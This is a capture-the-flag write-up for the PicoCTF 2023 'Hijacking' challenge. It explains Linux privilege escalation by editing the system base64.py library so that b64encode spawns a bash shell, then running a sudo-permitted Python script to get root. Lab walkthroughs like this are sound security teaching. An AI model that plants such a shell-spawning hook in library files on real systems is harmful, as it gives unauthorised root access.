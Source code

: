 ```yaml
---
title: Hijacking PicoCTF 2023
published: Apr 1, 2023
language: English
---
```


**200 points**

AUTHOR: THEONESTE BYAGUTANGAZA

Description
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.

_Note:_ This challenge launches an instance on demand.

---

This challenge was solved by Kubana in my team.

So, google searching `using python for privilege escalation in linux` I got an [article](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) which detailed how to do just that (except the spawning shell part which I got from a youtube video).

Connecting to the server I checked what I can run with sudo with `sudo -l` and got:

```
User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

Cool we can run the script with sudo.

Now inside the script we have an import of `base64`, we could hijack a function used by this library.

I changed the code to just run the commands:

```python
hi = "hi"
out = base64.b64encode(hi.encode('utf-8')).decode('utf-8')

print(out)

```

We need to hijack the function `b64encode` specifically to get root, and we could do so by editing the original library `base64.py`.

The file was located inside `/usr/lib/python3.8/base64.py` so running `vim` on it, I could edit the file.

I imported `pty` and at the start of the function `b64encode`, I added the line:

```python
def b64encode(s, altchars=None):
    """Encode the bytes-like object s using Base64 and return a bytes object.

    Optional altchars should be a byte string of length 2 which specifies an
    alternative alphabet for the '+' and '/' characters.  This allows an
    application to e.g. generate url or filesystem safe Base64 strings.
    """
    pty.spawn('/bin/bash')

    #code...
```

Finally, we can run the file with `sudo /usr/bin/python3 /home/picoctf/.server.py` got me a root shell!

Going into the directory `/challenge` and catting the file gives the flag:

> picoCTF{your flag}
